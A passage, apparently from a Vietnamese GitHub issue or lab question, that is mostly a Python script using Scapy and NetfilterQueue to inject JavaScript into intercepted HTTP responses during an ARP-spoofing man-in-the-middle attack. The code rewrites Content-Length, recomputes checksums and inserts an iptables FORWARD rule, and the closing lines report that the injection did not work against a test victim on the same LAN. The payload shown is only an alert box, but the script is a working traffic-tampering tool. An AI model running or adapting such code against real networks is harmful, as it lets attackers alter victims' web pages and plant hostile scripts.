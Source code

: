 ```python!
            # Javascript code to add, feel free to add any Javascript code
            added_text = "<script>alert('Javascript Injected successfully!');</script>"
            # or you can add HTML as well!
            # added_text = "<p><b>HTML Injected successfully!</b></p>"
            # calculate the length in bytes, each character corresponds to a byte
            added_text_length = len(added_text)
            # replace the </body> tag with the added text plus </body>
            load = load.replace("</body>", added_text + "</body>")
            if "Content-Length" in load:
                # if Content-Length header is available
                # get the old Content-Length value
                content_length = int(re.search(r"Content-Length: (\d+)\r\n", load).group(1))
                # re-calculate the content length by adding the length of the injected code
                new_content_length = content_length + added_text_length
                # replace the new content length to the header
                load = re.sub(r"Content-Length:.*\r\n", f"Content-Length: {new_content_length}\r\n", load)
                # print a message if injected
                if added_text in load:
                    print(f"{GREEN}[+] Successfully injected code to {spacket[IP].dst}{RESET}")
            # if you want to debug and see the modified HTML data
            # print("Load:", load)
            # set the new data
            spacket[Raw].load = load
            # set IP length header, checksums of IP and TCP to None
            # so Scapy will re-calculate them automatically
            spacket[IP].len = None
            spacket[IP].chksum = None
            spacket[TCP].chksum = None
            # set the modified Scapy packet back to the netfilterqueue packet
            packet.set_payload(bytes(spacket))
    # accept all the packets
    packet.accept()


if __name__ == "__main__":
    # initialize the queue
    # queue = netfilterqueue.NetfilterQueue()
    try:
        if os.geteuid() != 0:
            exit("Run with root permission!")
        os.system('iptables -A FORWARD -j NFQUEUE --queue-num 0')
        # os.system('iptables -A  FORWARD -j NFQUEUE --queue-num 0')
        queue = NetfilterQueue()
        queue.bind(0, process_packet)
        queue.run()
    except KeyboardInterrupt:
        os.system("iptables --flush")
```

- chạy lại file arpspoofing để tấn công MITM và sau đó là file http_code_injection.py
- sau đó mình đóng giả làm victim truy cập vào trang web html do attacker tạo ở cùng mạng LAN với victim thì đoạn code lại không thành công
